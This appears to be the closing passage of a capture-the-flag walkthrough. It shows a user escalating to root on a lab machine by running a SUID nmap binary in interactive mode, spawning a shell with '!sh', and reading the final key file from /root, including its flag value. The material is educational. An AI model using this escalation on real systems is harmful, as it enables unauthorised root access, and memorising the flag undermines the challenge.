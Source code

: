 Note nmap appers in the list of programs.
```
/usr/local/bin/nmap
```

From our list of ways to get TTY shells note that nmap, when run in in interactive mode can give us a shell as follows https://netsec.ws/?p=337

>(From within nmap)
>```
>!sh
>```
>


``` 
robot@linux:~$ /usr/local/bin/nmap --interactive 
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> 
```

Spawn a shell

```
nmap> !sh 
!sh
# 
```

The `#` indicates we are now the `root` user. The key is probably stored in the `root` home directory found at `/root`

```
# ls /root
ls /root
firstboot_done  key-3-of-3.txt
```

```
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
